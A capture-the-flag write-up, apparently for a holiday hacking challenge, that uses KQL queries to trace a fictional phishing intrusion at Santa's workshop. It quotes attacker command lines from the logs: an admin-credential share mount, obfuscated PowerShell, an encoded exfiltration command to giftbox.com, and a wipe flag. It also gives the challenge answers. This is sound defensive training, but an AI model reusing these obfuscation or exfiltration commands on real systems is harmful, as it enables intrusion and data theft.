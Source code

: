 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr`

**alabaster_snowball@santaworkshopgeeseislands.org**

What is the email address that was used to send this spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender`

**cwombley@gmail.com**

  What was the subject line used in the spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject`

**[EXTERNAL] Invoice foir reindeer food past due**

 ### Case 2:

What is the role of our victim in the organization?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role`

**Head Elf**

 What is the hostname of the victim's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname`

**Y1US-DESKTOP**

 What is the source IP linked to the victim?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr`

**10.10.0.4**

  ### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

### Case 5:

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

 What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

The command executed at the above timestamp is:

`( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''`

The filename has to be reversed using `echo txt.tsiLeciNythguaN | rev`

**NaughtyNiceList.txt**

 The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

The activity was performed at 2023-12-24T16:58:43Z.
Base64 decoding leads to:  
`[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN`

This is the decimal representation of the ASCII string `downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file`

**giftbox.com**
  
### Case 6:

What is the name of the executable the attackers used in the final malicious command?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

The activity can be found at 2023-12-25T10:44:27Z.

**downwithsanta.exe**

What was the command line flag used alongside this executable?

**--wipeall**

### Well done!

We are provided with the below command to be executed in the KQL prompt:

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

**Beware the Cube that Wombles**

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ1MTU3Mjk2NiwtMjAxMDE5MjYzXX0=
-->